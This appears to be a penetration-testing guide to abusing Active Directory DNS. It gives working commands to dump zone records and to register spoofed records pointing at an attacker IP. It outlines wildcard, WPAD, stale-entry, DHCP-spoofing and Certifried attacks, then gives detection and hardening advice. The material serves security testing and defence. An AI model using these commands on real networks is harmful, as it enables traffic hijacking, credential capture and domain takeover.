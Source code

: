 # AD DNS Records


By default **any user** in Active Directory can **enumerate all DNS records** in the Domain or Forest DNS zones, similar to a zone transfer (users can list the child objects of a DNS zone in an AD environment).

The tool [[https://github.com/dirkjanm/adidnsdump|**adidnsdump**]] enables **enumeration** and **exporting** of **all DNS records** in the zone for recon purposes of internal networks.

```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

# Enumerate the default zone and resolve the "hidden" records
adidnsdump -u domain_name\\username ldap://10.10.10.10 -r

# Quickly list every zone (DomainDnsZones, ForestDnsZones, legacy zones,…)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --print-zones

# Dump a specific zone (e.g. ForestDnsZones)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --zone _msdcs.domain.local -r

cat records.csv
```
```
>  adidnsdump v1.4.0 (April 2025) adds JSON/Greppable (`--json`) output, multi-threaded DNS resolution and support for TLS 1.2/1.3 when binding to LDAPS  

For more information read [[https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/|https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/]]

---

## Creating / Modifying records (ADIDNS spoofing)

Because the **Authenticated Users** group has **Create Child** on the zone DACL by default, any domain account (or computer account) can register additional records.  This can be used for traffic hijacking, NTLM relay coercion or even full domain compromise.

### PowerMad / Invoke-DNSUpdate (PowerShell)

```powershell
Import-Module .\Powermad.ps1

# Add A record evil.domain.local → attacker IP
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Verbose

# Delete it when done
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Delete -Verbose
```
```
### Impacket – dnsupdate.py  (Python)

```bash
# add/replace an A record via secure dynamic-update
python3 dnsupdate.py -u 'DOMAIN/user:Passw0rd!' -dc-ip 10.10.10.10 -action add -record evil.domain.local -type A -data 10.10.14.37
```
```
*(dnsupdate.py ships with Impacket ≥0.12.0)*

### BloodyAD

```bash
bloodyAD -u DOMAIN\\user -p 'Passw0rd!' --host 10.10.10.10 dns add A evil 10.10.14.37
```
```
---

## Common attack primitives

1. **Wildcard record** – `*.<zone>` turns the AD DNS server into an enterprise-wide responder similar to LLMNR/NBNS spoofing. It can be abused to capture NTLM hashes or to relay them to LDAP/SMB.  (Requires WINS-lookup to be disabled.)    
2. **WPAD hijack** – add `wpad` (or an **NS** record pointing to an attacker host to bypass the Global-Query-Block-List) and transparently proxy outbound HTTP requests to harvest credentials.  Microsoft patched the wildcard/ DNAME bypasses (CVE-2018-8320) but **NS-records still work**.    
3. **Stale entry takeover** – claim the IP address that previously belonged to a workstation and the associated DNS entry will still resolve, enabling resource-based constrained delegation or Shadow-Credentials attacks without touching DNS at all.    
4. **DHCP → DNS spoofing** – on a default Windows DHCP+DNS deployment an unauthenticated attacker on the same subnet can overwrite any existing A record (including Domain Controllers) by sending forged DHCP requests that trigger dynamic DNS updates (Akamai “DDSpoof”, 2023).  This gives machine-in-the-middle over Kerberos/LDAP and can lead to full domain takeover.    
5. **Certifried (CVE-2022-26923)** – change the `dNSHostName` of a machine account you control, register a matching A record, then request a certificate for that name to impersonate the DC. Tools such as **Certipy** or **BloodyAD** fully automate the flow.  

---

## Detection & hardening

* Deny **Authenticated Users** the *Create all child objects* right on sensitive zones and delegate dynamic updates to a dedicated account used by DHCP.
* If dynamic updates are required, set the zone to **Secure-only** and enable **Name Protection** in DHCP so that only the owner computer object can overwrite its own record.
* Monitor DNS Server event IDs 257/252 (dynamic update), 770 (zone transfer) and LDAP writes to `CN=MicrosoftDNS,DC=DomainDnsZones`.
* Block dangerous names (`wpad`, `isatap`, `*`) with an intentionally-benign record or via the Global Query Block List.
* Keep DNS servers patched – e.g., RCE bugs CVE-2024-26224 and CVE-2024-26231 reached **CVSS 9.8** and are remotely exploitable against Domain Controllers.  


## References

* Kevin Robertson – “ADIDNS Revisited – WPAD, GQBL and More”  (2018, still the de-facto reference for wildcard/WPAD attacks)  
* Akamai – “Spoofing DNS Records by Abusing DHCP DNS Dynamic Updates” (Dec 2023)

